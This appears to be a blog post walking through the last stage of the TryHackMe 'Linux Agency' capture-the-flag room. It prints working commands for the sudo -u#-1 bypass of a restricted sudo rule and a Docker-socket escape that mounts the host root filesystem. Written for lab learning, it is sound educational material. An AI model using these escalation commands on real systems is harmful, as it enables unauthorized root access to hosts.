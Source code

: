 ```yaml
---
layout: post
title:  "THM: Linux Agency"
date:   2021-01-28 21:00:00 +1100
category: hacking
---
```


## Game Zone
*This Room will help you to sharpen your Linux Skills and help you to learn basic privilege escalation in a HITMAN theme. So, pack your briefcase and grab your SilverBallers as its gonna be a tough ride.*

This is [Linux Agency](https://tryhackme.com/room/linuxagency) from THM. It doesn't seem to have a rating? There are 31 flags which mostly involve basic concepts to grab, then you escalate through a bunch of users mostly with GTFOBins techniques. It's only the last part I'm going to mention.

## Final Steps
As *maya*, linpeas shows us this:

>root      1395  0.0  0.3 404800  3432 ?        Sl   01:41   0:00  _ /usr/bin/docker-proxy -proto tcp -host-ip 127.0.0.1 -host-port 2222 -container-ip 172.17.0.2 -container-port 22

We log in as robert using his SSH key and passphrase we found earlier:

{% highlight shell %}
maya@linuxagency:~/old_robert_ssh$ ssh -p 2222 -i id_rsa robert@localhost
robert@localhosts password: 
Last login: Tue Jan 12 17:02:07 2021 from 172.17.0.1
robert@ec96850005d6:~$
{% endhighlight %}

We're in a docker container.

We can become root in the container:

{% highlight shell %}
robert@ec96850005d6:~$ sudo -l
Matching Defaults entries for robert on ec96850005d6:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on ec96850005d6:
    (ALL, !root) NOPASSWD: /bin/bash
robert@ec96850005d6:~$ sudo -u#-1 /bin/bash
root@ec96850005d6:~#
{% endhighlight %}

And then escape it:

``
root@ec96850005d6:/root# /tmp/docker -H unix:///run/docker.sock images -a
``

There is one called *mangoman*.

{% highlight shell %}
root@ec96850005d6:/root# /tmp/docker run -it -v /:/host mangoman chroot /host/ bash
root@7aebfd2b211c:/#
{% endhighlight %}

Note: docker wasn't in the path, it was in */tmp* for some reason; probably to make it harder. Linpeas pointed out *run/docker.sock*. 

{% highlight shell %}
root@7aebfd2b211c:~# cat message.txt 
Nice Job 47
We are really impressed with your skills

Hope you enjoyed your journey!!

Your directors of ICA 
   0z09e & Xyan1d3


========>0z09e
https://github.com/0z09e
https://twitter.com/0z09e

========>Xyan1d3
https://twitter.com/xyan1d3
https://github.com/xyan1d3
{% endhighlight %}
